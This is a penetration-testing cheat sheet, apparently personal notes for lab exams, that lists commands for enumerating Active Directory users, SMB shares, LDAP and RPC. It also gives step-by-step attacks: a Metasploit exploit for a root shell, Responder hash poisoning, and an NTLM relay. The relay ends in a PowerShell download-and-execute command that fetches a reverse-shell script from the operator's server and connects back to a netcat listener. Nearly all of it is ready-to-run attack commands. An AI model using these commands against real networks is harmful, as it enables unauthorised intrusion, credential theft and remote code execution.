 #### Find users
```bash
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

```bash
rpcclient -U "" -N 172.16.5.5
```
```rpcclient
enumdomusers
```

```bash
nxc smb 172.16.5.5 --users
```

```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

```bash
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

---
#### SMB, port 139/445
```bash
nxc smb ip -u '' -p ''
```
- also try with 'guest' user
null session/list shares
```bash
smbclient -L \\192.168.1.1 -N
```

```
lookupsid.py oscp.exam/anonymous@10.129.235.244 -no-pass
```
- used anonymous because when enumerating smb anonymously can see shares with `smbclient -L <ip> -N`
- to remove everything before the `\` use vim command:
	- `:%s/^.*\\//`
- to remove everything after the first space
	- `:%s/ .*$//`
if READ access to IPC$ share, can rid-brute users
```
netexec smb 10.10.11.236 -u guest -p '' --rid-brute
```

```
enum4linux -a -u "" -p "" <dc-ip> && enum4linux -a -u "guest" -p "" <dc-ip>
```

```
smbmap -u "" -p "" -P 445 -H <dc-ip> && smbmap -u "guest" -p "" -P 445 -H <dc-ip>
```

```
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
```

```
nxc smb <ip> -u '' -p ''
```

```
nxc smb <ip> -u 'a' -p '' 
```

```
nxc smb <ip> --users
```
###### if smb message signing is disabled, either eternal blue or more likely ms09-050
```
nmap -p139,445 --script "smb-vuln*" 192.168.188.40
```
- test if vulnerable
	- if so:
```
msfconsole
search ms09-050
use 0
set LHOST <my ip>
set RHOSTS <victim ip>
run
```
- root shell
---
#### LDAP, port 389/636

```
ldapsearch -x -b "dc=hutch,dc=offsec" "user"  -H ldap://192.168.199.122 | grep dn
```
- check for users
- vim command to remove everything but names from output `:%s/^.*CN=\([^,]*\),.*$/\1/`
	- or try `:g/^dn: CN=\([^,]\+\),CN=Users,DC=hutch,DC=offsec$/s//\1/`


- vim command to reformat names with like `first.last` `:%s/^\(.*\) \([^ ]*\)$/\1.\2/`

```
ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.199.122 | grep description
```
- searches for descriptions
```
ldapsearch -x -b "dc=baby,dc=vl" "*"  -H ldap://10.10.88.213 | grep desc -A2
```
- searches for descriptions with more context)


```
nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>
```

```
ldapsearch -d 1 -x -H ldap://10.10.5.122 -b "dc=VULNNET"
```

---
#### RPC, port 135
```
rpcclient -N -U '' 10.129.184.54
```
- `enumdomusers`
```
net rpc group members 'Domain Users' -W '<domain>' -I '<ip>' -U '%'
```

---
#### Redis NoSQL, Port 6379
```
redis-cli -h 10.10.246.197
```
- to retrieve all parameters from redis-cli, run ``CONFIG GET *``

---
#### RDP
```
xfreerdp /v:192.168.161.221 -sec-nla
```

---
#### Poisoning
###### Listen for hashes
```
sudo responder -I tun0
```
- make sure to enable SMB with `cat /usr/share/responder/Responder.conf | grep -i smb`
	- if Off, use `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf` to turn it On
- also make sure http is on, same as above

###### NTLM Relay over SMB
```
sudo sed -i "s/SMB = On/SMB = Off/" /usr/share/responder/Responder.conf
```
- turn off smb in responder (so doesnt conflict with ntlmrelayx)
- switch back to On to re-enable afterwards  `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf`
```
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```
- create list of IPs from subnet with smb signing disabled, so can be used to relay, saved as file relayTargets.txt in current directory
```
sudo responder -I tun0 
```
- start responder
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support
```
- output might show Administrator local SAM hash, if session relayed has privileged access on the target machine. if nothing useful in output, try command execution:
```
cp /home/daniel/Downloads/nishang-master/Shells/Invoke-PowerShellTcp.ps1 .
```
- copy Invoke-PowerShellTcp.ps1 to current directory
```
python3 -m http.server 8000
```
- serve Invoke-PowerShellTcp.ps1 on a http server
```
rlwrap -cAr nc -lnvp 7331
```
- catch the rev shell
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```
- assumes my IP is 172.16.117.30